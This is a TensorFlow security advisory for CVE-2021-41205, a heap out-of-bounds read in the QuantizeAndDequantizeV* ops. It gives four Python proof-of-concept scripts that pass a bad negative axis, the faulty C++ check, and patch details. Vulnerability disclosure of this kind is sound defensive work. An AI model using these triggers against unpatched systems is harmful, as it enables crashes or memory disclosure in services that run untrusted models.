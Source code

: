 ## TFSA-2021-185: Heap OOB read in all `tf.raw_ops.QuantizeAndDequantizeV*` ops

### CVE Number
CVE-2021-41205

### Impact
The [shape inference functions for the `QuantizeAndDequantizeV*` operations](https://github.com/tensorflow/tensorflow/blob/8d72537c6abf5a44103b57b9c2e22c14f5f49698/tensorflow/core/ops/array_ops.cc) can trigger a read outside of bounds of heap allocated array as illustrated in the following sets of PoCs:

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4Grad(
    gradients=[1.0,1.0],
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV4(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV3(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    narrow_range=False,
    axis=-100)
  return data

test()
```

```python
import tensorflow as tf

@tf.function
def test():
  data=tf.raw_ops.QuantizeAndDequantizeV2(
    input=[1.0,1.0],
    input_min=[1.0,10.0],
    input_max=[1.0,10.0],
    signed_input=False,
    num_bits=10,
    range_given=False,
    round_mode='HALF_TO_EVEN',
    narrow_range=False,
    axis=-100)
  return data

test()
```

In all of these cases, `axis` is a negative value different than the special
value used for optional/unknown dimensions (i.e., -1). However, the code ignores
the occurrences of these values:

```cc
...
if (axis != -1) {
  ...
  c->Dim(input, axis);
  ...
}
```

### Patches
We have patched the issue in GitHub commit [7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d](https://github.com/tensorflow/tensorflow/commit/7cf73a2274732c9d82af51c2bc2cf90d13cd7e6d).

The fix will be included in TensorFlow 2.7.0. We will also cherrypick this commit on TensorFlow 2.6.1, TensorFlow 2.5.2, and TensorFlow 2.4.4, as these are also affected and still in supported range.

### For more information
Please consult [our security guide](https://github.com/tensorflow/tensorflow/blob/master/SECURITY.md) for more information regarding the security model and how to contact us with issues and questions.

### Attribution
This vulnerability has been reported by members of the Aivul Team from Qihoo 360.
